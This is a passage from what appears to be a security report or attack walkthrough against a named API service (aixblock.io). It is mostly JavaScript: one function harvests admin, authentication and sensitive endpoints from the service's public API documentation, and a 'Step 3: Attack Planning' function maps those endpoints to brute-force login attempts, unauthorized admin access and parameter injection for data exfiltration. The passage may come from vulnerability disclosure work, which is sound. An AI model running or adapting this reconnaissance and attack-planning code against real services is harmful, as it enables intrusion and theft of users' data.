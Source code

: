 ```javascript
            adminEndpoints,
            authEndpoints,
            sensitiveEndpoints,
            totalEndpoints: Object.keys(apiSpec.paths).length
        };
    } catch (error) {
        console.error('Failed to extract API information:', error);
        return null;
    }
};

// Usage
const sensitiveInfo = await extractSensitiveInfo('https://api.aixblock.io/api-docs');
console.log('Discovered sensitive endpoints:', sensitiveInfo);
```

### Step 3: Attack Planning Based on Documentation
```javascript
// Plan attacks based on discovered API information
const planAttacks = (apiInfo) => {
    const attackPlan = {
        authenticationBypass: [],
        privilegeEscalation: [],
        dataExfiltration: [],
        denialOfService: []
    };
    
    // Analyze authentication endpoints
    for (const endpoint of apiInfo.authEndpoints) {
        if (endpoint.path.includes('/login')) {
            attackPlan.authenticationBypass.push({
                endpoint: endpoint.path,
                method: endpoint.method,
                attack: 'brute_force',
                parameters: endpoint.details.parameters
            });
        }
    }
    
    // Analyze admin endpoints
    for (const endpoint of apiInfo.adminEndpoints) {
        attackPlan.privilegeEscalation.push({
            endpoint: endpoint.path,
            method: endpoint.method,
            attack: 'unauthorized_access',
            requiredAuth: endpoint.details.security
        });
    }
    
    // Analyze sensitive endpoints
    for (const endpoint of apiInfo.sensitiveEndpoints) {
        attackPlan.dataExfiltration.push({
            endpoint: endpoint.path,
            method: endpoint.method,
            attack: 'parameter_injection',
            vulnerableParams: endpoint.sensitiveParams
        });
    }
    
    return attackPlan;
};

const attackPlan = planAttacks(sensitiveInfo);
```